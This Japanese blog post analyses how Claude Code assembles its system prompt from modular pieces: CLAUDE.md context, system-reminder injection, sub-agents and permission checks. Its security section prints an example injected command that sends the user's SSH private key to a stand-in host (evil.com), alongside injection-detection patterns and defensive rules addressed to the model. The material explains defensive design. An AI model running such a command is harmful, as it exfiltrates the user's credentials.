







> 「勝手にやってくれる」体験の裏に隠された、緻密なプロンプトエンジニアリングの世界



---

Claude Codeを初めて使ってみた開発者は、しばしば「どうしてこんなに文脈をよく理解するのだろう？」という疑問を抱きます。単なるコーディングアシスタントではなく、まるでプロジェクトを長く共にしてきた同僚のようにふるまうClaude Code。その秘密は、**40個以上のプロンプト断片が動的に組み合わされる緻密なシステムアーキテクチャ**にあります。

この記事では、Claude CodeがCLAUDE.mdとコードベースをどのように活用してLLMに指示を出すのか、そしてシステムプロンプトがどのようにリアルタイムで生成されるのかを深掘りして分析します。

この記事はLiteLLMプロキシを通したAPIモニタリングの分析と、公開されているシステムプロンプト資料をもとに書かれており、参考にした資料は記事の末尾にまとめてあります。

---

## TL;DR

- Claude Codeの強みは、一つの巨大なプロンプトではなく、状況に応じて組み立てられるプロンプトシステムから生まれます。
- CLAUDE.md、システムリマインダー、サブエージェント、権限検証は、それぞれコンテキストの品質と安全性を高める役割を担っています。
- 核心となる教訓は、プロンプトをうまく書くレベルを超えて、コンテキストと作業フローをアーキテクチャとして設計しなければならない、ということです。

---

## 目次

1. [全体アーキテクチャの流れ](#1-全体アーキテクチャの流れ)
2. [システムプロンプトの動的構成](#2-システムプロンプトの動的構成)
3. [CLAUDE.mdの活用メカニズム](#3-claudemdの活用メカニズム)
4. [System Reminderの注入パターン](#4-system-reminderの注入パターン)
5. [Sub-Agentアーキテクチャ](#5-sub-agentアーキテクチャ)
6. [セキュリティと権限検証の流れ](#6-セキュリティと権限検証の流れ)
7. [コンテキストエンジニアリング戦略](#7-コンテキストエンジニアリング戦略)
8. [重要なインサイト](#重要なインサイト)

---

## 1. 全体アーキテクチャの流れ

Claude Codeに命令を入力すると何が起きるのでしょうか。単にユーザーのメッセージがAPIへ送信されるわけではありません。その間には**緻密なコンテキスト収集、プロンプトのビルド、事前処理**の過程が存在します。



### 流れの説明

ユーザーがターミナルに命令を入力した瞬間、Claude Codeは**4段階の緻密なパイプライン**を稼働させます。

**第1段階：コンテキスト収集**

Claude Codeはまず、現在の作業環境に関するすべての情報を収集します。プロジェクトルートの`CLAUDE.md`ファイルを読んで、プロジェクト構造、ビルドコマンド、コーディング規則を把握します。同時にGitの状態（現在のブランチ、直近のコミット、変更されたファイル）や、OS、インストール済みツールなどの環境情報も収集します。このすべての情報が、Claudeが「プロジェクトを理解しているかのように」ふるまう基盤になります。

**第2段階：プロンプトのビルド**

収集した情報をもとに、システムプロンプトが動的に組み立てられます。核心は**条件付きの構成**です。すべてのプロンプト断片が常に含まれるのではなく、現在の状況に必要なものだけが選択的に含まれます。たとえば、Planモードが有効になっていればPlan関連のプロンプトが追加され、MCPサーバーが設定されていればMCP CLIのプロンプトが含まれます。

**第3段階：リクエストの事前処理**

APIリクエストを送る前に、Claude Codeはいくつかの「事前作業」を行います。現在の会話が新しい話題かどうかを検知し、会話タイトルを生成し、長い会話の場合はそれまでの内容を要約します。この過程でも別途のLLM呼び出しが発生し、それぞれに特化したプロンプトが使われます。

**第4段階：応答処理**

Claudeの応答にツール呼び出しが含まれていれば、該当するツールが実行され、その結果に**システムリマインダーが注入**されます。このリマインダーは、Claudeが本来の目標から外れないようにする「羅針盤」の役割を果たします。特にBashコマンドの場合は、実行前にコマンドインジェクション攻撃を検知する専用のAgentが検査を行います。

---

## 2. システムプロンプトの動的構成

Claude Codeのシステムプロンプトは単一の文字列ではありません。**静的コンポーネント、動的コンポーネント、条件付きコンポーネント**がレゴブロックのように組み立てられて、最終的なプロンプトを形成します。



### 流れの説明

**静的コンポーネント：変わらない基盤**

すべてのClaude Codeセッションで共通して使われるプロンプトです。2,601個のトークンからなるCoreシステムプロンプトは、Claude Codeのアイデンティティ、基本的な行動規則、応答スタイルを定義します。「あなたはClaude Codeです。Anthropicの公式CLIツールです……」で始まるこのプロンプトは、Claudeがコーディングアシスタントとしてどうふるまうべきかの根幹を形づくります。

セキュリティ規則も静的コンポーネントに含まれます。悪意あるコードの作成禁止、URL生成の制限、機微な作業に関するガイドラインなどがこれに当たります。

**動的コンポーネント：リアルタイムで変わる文脈**

ここがClaude Codeの本当の「魔法」が起きる場所です。`CLAUDE.md`ファイルの内容はプロジェクトごとに違います。Reactプロジェクトならコンポーネント構造とスタイルガイドが、PythonバックエンドのプロジェクトならAPIエンドポイントとテスト方法が書かれているはずです。この情報がシステムプロンプトに含まれることで、Claudeは「このプロジェクトを知っているかのように」ふるまえるようになります。

Gitの状態情報も動的に注入されます。現在のブランチが何か、直近のコミットが何か、どのファイルが変更されたかをClaudeが把握しているため、「mainブランチにPRを作って」という依頼も自然に処理できます。

**条件付きコンポーネント：必要なときだけ有効化**

Learning Mode、Plan Mode、MCP CLIなどは、ユーザーが特定のモードを有効にしたときだけ含まれます。これは**トークン効率**のための設計です。使っていない機能の説明で貴重なコンテキストウィンドウを浪費しません。

**ツール説明：驚くほど詳細なガイド**

17個のビルトインツールそれぞれの説明がシステムプロンプトに含まれます。特に`TodoWrite`（2,167トークン）と`Bash`（1,074トークン）のツールは、非常に詳細な使用ガイドを含んでいます。これらのツール説明だけを合わせても8,000トークンを超えます。

最終的に組み立てられたシステムプロンプトは**10,000トークン以上**に達することがあります。そしてこのすべてが、毎セッション、状況に合わせて動的に再構成されるのです。

---

## 3. CLAUDE.mdの活用メカニズム

`CLAUDE.md`は、Claude Codeのエコシステムの中で特別な位置を占めています。このファイルはプロジェクトの「頭脳」であり、Claudeがコードベースを理解するために必要なすべての文脈を提供します。



### 流れの説明

**初期設定：CLAUDE.mdの誕生**

ユーザーが`/init`コマンドを実行するか、新しいプロジェクトで初めてClaude Codeを起動すると、専用のGenerator Agentが起動します。このAgentは384トークンの特化したシステムプロンプトを持ち、ただ一つの目標だけを遂行します。すなわち、**コードベースを分析してCLAUDE.mdを生成すること**です。

Generatorはプロジェクトのファイル構造を探索し、`package.json`、`pyproject.toml`、`Makefile`などの設定ファイルを読んでビルドおよびテストのコマンドを把握します。コードのアーキテクチャパターンを分析し、主要なディレクトリとファイルの役割を要約します。このすべての情報が構造化された形で`CLAUDE.md`に保存されます。

**セッション実行：コンテキストの力**

以降のすべてのClaude Codeセッションで、この`CLAUDE.md`ファイルはシステムプロンプトの一部として自動的に含まれます。ユーザーが「テストを実行して」と言えば、ClaudeはCLAUDE.mdから読み取ったテストコマンド（`npm test`、`pytest`など）を使います。「新しいコンポーネントを作って」と言えば、CLAUDE.mdに明記されたプロジェクトのスタイルガイドとディレクトリ構造に従います。

これがClaude Codeが**プロジェクトごとに違うふるまいをする**秘密です。同じ「テストを実行して」という命令でも、Reactプロジェクトでは`npm test`を、Djangoプロジェクトでは`python manage.py test`を実行するのは、CLAUDE.mdのおかげです。

**CLAUDE.mdの構造の例**

```yaml
# プロジェクト概要
このプロジェクトはReactベースのダッシュボードアプリケーションです。

# プロジェクト構造
- src/components: 再利用可能なUIコンポーネント
- src/pages: ページレベルのコンポーネント
- src/hooks: カスタムReactフック
- src/services: API通信ロジック

# 開発コマンド
- 開発サーバー: npm run dev
- ビルド: npm run build
- テスト: npm test -- --watch
- リント: npm run lint

# コーディング規則
- TypeScript strictモードを使用
- コンポーネントは関数型で記述
- スタイルはTailwind CSSを使用
- 状態管理はZustandを使用

# 重要事項
- APIキーは.env.localに保存
- PR前に必ずlintを通す必要あり
```

---

## 4. System Reminderの注入パターン

Claude Codeの最も独特な特徴の一つが、`<system-reminder>`タグの広範な使用です。このタグは**drift防止の中核メカニズム**であり、長い会話の中でもClaudeが本来の目標を見失わないようにします。



### 流れの説明

**なぜSystem Reminderが必要なのか？**

LLMの根本的な限界の一つは、**コンテキストの長さが増えるほど初期の指示を「忘れてしまう」**傾向です。10回のツール呼び出しと長いコード出力が続くと、システムプロンプトで指示した行動規則が薄れていくことがあります。

Claude Codeはこの問題を`<system-reminder>`タグで解決します。核心となる指示を**一度だけ言うのではなく、適切なタイミングごとに繰り返して想起**させるのです。

**3つの注入ポイント**

1. **ユーザーメッセージへの注入**：ユーザーの入力がClaudeに渡される前に、核心となる指示が一緒に含められます。

```xml
<system-reminder>
重要な指示：
- 依頼されたことだけを行い、それ以上でもそれ以下でもないようにせよ
- どうしても必要な場合以外はファイルを作成するな
- ドキュメントファイル（*.md）を先に作成するな
</system-reminder>

ユーザー: ログイン機能を実装して
```

2. **ツール実行時の注入**：ツールが呼び出されるとき、その呼び出しに関するコンテキストが追加されます。

3. **ツール結果への注入**：最も巧妙な部分です。ツールの実行結果とともに**条件付きリマインダー**が注入されます。

**条件付きリマインダーの巧妙さ**

Claude Codeは状況に応じて異なるリマインダーを注入します。

- **Todoリストが空で、複雑な作業の最中のとき**：「TodoWriteツールを使って進捗を追跡せよ」
- **セキュリティリスクが検知されたとき**：「このファイルが悪意あるコードに関係していそうなら、作業を拒否せよ」
- **出力が長いとき**：「要約が必要かもしれない」

実際の例：
```json
{
  "type": "tool_result",
  "content": "drwxr-xr-x 7 user staff 224 Aug 6 09:17 .\n...\n<system-reminder>\nTodoWriteツールが最近使われていません。 
進捗の追跡が必要な作業の最中であれば、TodoWriteツールの使用を検討してください。\n</system-reminder>"
}
```

このパターンは、**「適切なタイミングでの小さなリマインダーがエージェントの行動を変える」**という重要なインサイトを示しています。

---

## 5. Sub-Agentアーキテクチャ

複雑な作業は、一つのAgentがすべて処理するのは困難です。Claude Codeは**階層的なSub-Agent構造**を通じてこの問題を解決します。



### 流れの説明

**Main Agent：オーケストラの指揮者**

Main Agentは、全体のシステムプロンプト（10,000+トークン）を持つ「本体」です。ユーザーの依頼を受けて分析し、必要に応じてSub-Agentを生成し、最終的な結果をまとめてユーザーに届けます。ちょうどオーケストラの指揮者が各パートに指示を出し、全体の音楽を調律するのと同じです。

**Built-in Sub-Agents：特化した専門家たち**

- **Explore Agent（369トークン）**：コードベースの探索に特化しています。「このプロジェクトでAPIを呼び出しているコードはどこ？」という質問に対し、複数のファイルを素早く検索して関連コードを見つけ出します。

- **Plan Agent（480トークン）**：複雑な作業の計画を立てます。「決済システムをリファクタリングして」という依頼に対し、どのファイルをどの順番で修正すべきかの計画を立てます。

- **Task Agent（294トークン）**：特定の作業を並列で実行します。最も軽いプロンプトを持ち、**狭く明確な範囲の作業**だけを行います。

**Sub-Agentの核心的な設計原則**

興味深いのは、Sub-Agentたちが**TodoWriteリマインダーを受け取らない**という点です。これは意図的な設計です。Sub-Agentは、複雑な作業管理を必要としない、明確で狭い範囲の作業だけを行うべきだからです。作業が複雑になれば、Main Agentが処理すべきです。

しかしAnthropicはここで止まりませんでした。もしSub-Agentの作業が想定より複雑になったら？その場合は**ツール結果に条件付きでTodoWriteリマインダーを注入**します。「作業が複雑になってきたようなら、TodoWriteを検討せよ」という穏やかな提案になるわけです。

**Utility Agents：見えない協力者たち**

ユーザーには見えないものの、バックグラウンドで動作するAgentもあります。

- **Title Generator**：会話タイトルを50文字以内で生成
- **Conversation Summarizer**：長い会話を要約してコンテキスト効率を向上
- **Bash Prefix Detector**：コマンドの安全性を検証
- **User Sentiment Analyzer**：ユーザーの不満やPR作成の依頼を検知

これらのAgentは、ユーザー体験を滑らかにしながら、トークンを効率的に使うことにも貢献しています。

---

## 6. セキュリティと権限検証の流れ

Claude Codeがターミナルで実行されるツールであるという点は、**セキュリティの重要性**を倍加させます。悪意あるプロンプトインジェクションや危険なコマンドの実行は、実際のシステムに被害を与えかねません。



### 流れの説明

**コマンドインジェクション：見えない脅威**

ユーザーが「gitの状態を確認して」と依頼したのに、Claudeが実際に実行するコマンドが`git status$(curl evil.com -d @~/.ssh/id_rsa)`だったらどうでしょうか。これが**コマンドインジェクション攻撃**です。見た目には安全そうでも、実際には機微なデータを外部へ送信する悪意あるコマンドが潜んでいます。

**Prefix Detector：第一の防衛線**

Claude CodeはすべてのBashコマンドを実行する前に、**専用のDetector Agent（835トークン）**に検証を依頼します。このAgentは二つの作業を行います。

1. **コマンドPrefixの抽出**：`git commit -m "fix bug"` → `git commit`
2. **インジェクションパターンの検知**：バッククォート、`$()`、パイプラインなど危険なパターンの検知

検知ルールの例：
```
git status          → git status (安全)
git diff HEAD~1     → git diff (安全)
git status`ls`      → command_injection_detected (危険!)
git diff $(cat secrets) → command_injection_detected (危険!)
pwd curl example.com → command_injection_detected (危険!)
```

**権限管理システム**

コマンドが安全だと判断されると、次に**許可リスト**を確認します。ユーザーが以前に許可したコマンドprefixであれば、そのまま実行されます。そうでなければ、ユーザーに明示的に権限を要求します。

このシステムのおかげで、ユーザーはよく使う安全なコマンドは自動的に実行しつつ、新しいコマンドについては検討する機会を持てます。

**YOLOモードでないなら……**

「YOLOモード」（`--dangerously-skip-permissions`）を使わない限り、このセキュリティ検証プロセスは常に有効です。これがClaude Codeをターミナルで安全に使える理由です。

---

## 7. コンテキストエンジニアリング戦略

Claude Codeの性能は、結局**どれだけ効率的にコンテキストを管理するか**にかかっています。限られたコンテキストウィンドウで最大限の効果を得るための戦略を見ていきましょう。



### 流れの説明

**Context Front-Loading：あらかじめ準備する**

Claude Codeは、ユーザーの依頼を処理する前にいくつかの「事前作業」を行います。会話タイトルを生成し、現在のメッセージが新しい話題かどうかを判断し、必要であれば以前の会話を要約します。

この過程で**別途のLLM呼び出し**が発生します。一見すると非効率に見えるかもしれませんが、こうして準備されたコンテキストが、その後の会話の品質を大きく向上させます。「ああ、以前に決済システムのリファクタリングについて話していたな」とClaudeが自然に続けられるのは、このためです。

**システムリマインダー：絶え間ない想起**

先に説明したとおり、`<system-reminder>`タグは会話全般にわたって注入されます。これは**「一度言えば終わり」ではなく「必要なときごとに繰り返す」**戦略です。人間のチームメンバーにも重要な事項は何度も念押しするように、AIエージェントに対しても同じなのです。

**動的なコンテキスト調整**

作業の複雑度に応じて、コンテキストが動的に調整されます。

- **単純な作業**：最小限のプロンプトだけを使用。トークンの浪費を防ぎます。
- **中程度の複雑度**：TodoWriteの使用を提案して進捗を追跡します。
- **高い複雑度**：Sub-Agentを生成して作業を分割します。

**キャッシュ最適化：トークンコストの削減**

Anthropic APIの`ephemeral cache`機能を活用します。システムプロンプト、CLAUDE.mdの内容、ツール説明など**繰り返し使われるコンテンツ**にキャッシュ制御を適用し、リクエストのたびに同じトークンを再処理しないようにします。

```json
{
  "text": "You are Claude Code...",
  "type": "text",
  "cache_control": {
    "type": "ephemeral"
  }
}
```

この最適化は、コスト削減だけでなく**応答速度の向上**にも寄与します。

---

## 重要なインサイト

Claude Codeを分析しながら見つけた重要なインサイトを整理します。これらの教訓は、AIエージェントを開発するすべての方に役立つはずです。

### 1. 動的なプロンプト構成の力

> **「一つの万能プロンプトではなく、状況に合わせて組み立てられるプロンプトシステムこそが答えだ」**

Claude Codeは単一のプロンプトを使いません。代わりに**40個以上のプロンプト断片が条件に応じて動的に組み合わされます**。CLAUDE.mdを通したプロジェクトごとのコンテキスト注入、環境とGitの状態に応じたリアルタイムの更新、有効になっているモードに応じた選択的なプロンプトの包含……このすべてが「状況を理解するAI」という体験を作り出しています。

**実務への適用**：自分だけのAIエージェントを作るとき、一つの巨大なプロンプトを書こうとしないでください。代わりにモジュール化されたプロンプト断片を作り、状況に応じて必要なものだけを組み合わせるシステムを設計しましょう。

### 2. システムリマインダーの魔法

> **「重要なのは一度言うことではなく、適切なタイミングで繰り返すことだ」**

`<system-reminder>`タグはClaude Codeの「秘密兵器」です。ユーザーメッセージ、ツール呼び出し、ツール結果など、**すべての段階で核心となる指示が繰り返されます**。これによって長い会話の中でもdriftを防ぎ、目標に集中できます。

**実務への適用**：エージェントが長い作業を行うとき、重要な指示を開始地点だけに置かないでください。途中の適切なタイミングでリマインダーを注入しましょう。特にツール実行の結果に条件付きリマインダーを追加するパターンが効果的です。

### 3. 階層的なエージェント構造

> **「一つの万能エージェントではなく、役割の明確な複数エージェントの協業こそが答えだ」**

Claude Codeは**Main Agent、Sub-Agents、Utility Agents**で構成された階層構造を持っています。各エージェントは明確な役割と最適化されたプロンプトを持っています。Main Agentは全体の調整に、Explore Agentは探索に、Plan Agentは計画に、Task Agentは実行に集中します。

**実務への適用**：複雑な作業を単一のエージェントで解決しようとしないでください。役割ごとにエージェントを分離し、各エージェントに最適化された（そして最小化された）プロンプトを与えましょう。より少ないコンテキストで、より集中した作業を行えます。

### 4. セキュリティ中心の設計

> **「セキュリティは後から追加するものではなく、最初からアーキテクチャに組み込まれていなければならない」**

コマンドインジェクション検知のための専用Agent、コマンドprefixの抽出と検証、ユーザーによる権限承認のプロセス……Claude Codeは**セキュリティを核心的な設計原則**としました。このすべてが、ユーザーがターミナルでAIを「安心して」使えるようにしています。

**実務への適用**：特にコード実行やファイルシステムへのアクセスを含むエージェントを開発するときは、セキュリティ検証の段階を必須で含めてください。「まず動くようにして、セキュリティは後で追加」は危険なアプローチです。

### 5. 効率的なコンテキスト管理

> **「限られたコンテキストウィンドウで最大の効果を得ることがエンジニアリングの核心だ」**

Context front-loading、ephemeral cache、条件付きのコンテキスト注入、会話の要約……Claude Codeは**トークンの一つひとつを大切に**扱います。不要な情報は取り除き、繰り返される情報はキャッシュし、必要な情報だけを適時に注入します。

**実務への適用**：コンテキストウィンドウを無限だと考えないでください。プロンプトの各部分が本当に必要かを検討し、キャッシュ戦略を立て、動的なコンテキスト調整を実装しましょう。

---

## 結論：Claude Codeが与えてくれる教訓

Claude Codeを分析していて最も印象深かったのは、**「魔法」のように見える快適な動作の裏に隠れた緻密なエンジニアリング**です。よく作られた単一のプロンプトではなく、数十個の小さなプロンプト断片が条件に応じて組み合わされ、適切なタイミングでリマインダーが注入され、セキュリティ検証が自動的に行われる過程を通じて、「勝手にうまく動く」体験が作り出されています。

Anthropicが公開していないもう一つのミステリーがあります。`<system-reminder>`タグが、Claudeモデルの訓練過程で特別な意味を持つように学習されたのかどうかです。このタグが単なるXMLマークアップなのか、それともモデルが特別に注意を払うように訓練された「特別なシグナル」なのかは、まだ明確ではありません。

しかし明らかなのは、Claude Codeのパターンが**あらゆるAIエージェント開発に適用可能な普遍的原則**を含んでいるという点です。

1. プロンプトをモジュール化し、動的に組み合わせよ
2. 重要な指示は繰り返し想起させよ
3. 複雑な作業は特化したエージェントに分割せよ
4. セキュリティを最初から設計に含めよ
5. コンテキストを効率的に管理せよ

最後に、この記事はClaude Codeの動作原理についての理解を説明していますが、コーディング以外の目的でAIエージェントを開発される方にとっても参考資料になれば幸いです。


~~最強の~~最初のAIエージェント - Agent Smith

---

## 参考資料

### 公式ドキュメント
- [Claude Code Best Practices](https://www.anthropic.com/engineering/claude-code-best-practices) - Anthropic
- [System Prompts](https://docs.claude.com/en/release-notes/system-prompts) - Claude Docs

### 技術分析
- [Peeking Under the Hood of Claude Code](https://medium.com/@outsightai/peeking-under-the-hood-of-claude-code-70f5a94a9a62) - OutsightAI

### GitHub
- [Piebald-AI/claude-code-system-prompts](https://github.com/Piebald-AI/claude-code-system-prompts) - システムプロンプトの全リスト（v2.0.43）
- [gregkonush/claude-system-prompts](https://github.com/gregkonush/claude-system-prompts)
- [Claude Code System Prompt Gist](https://gist.github.com/agokrani/919b536246dd272a55157c21d46eda14)

### ツール
